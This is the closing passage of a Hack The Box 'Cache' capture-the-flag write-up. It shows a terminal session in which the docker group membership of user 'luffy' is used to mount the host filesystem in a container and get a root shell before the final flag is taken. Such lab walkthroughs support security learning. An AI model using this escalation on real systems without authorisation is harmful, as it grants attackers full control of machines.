 ```
luffy@cache:~$ hostname
cache
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        5 years ago         64.2MB
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh 
# whoami
root
# hostname
67d25367aeb8
```

Nice. Now we can grab the final flag:

![htb_cache_root.png](../assets/cache_assets/htb_cache_root.png)

Thanks for following along!

-Ryan

---------------------------------
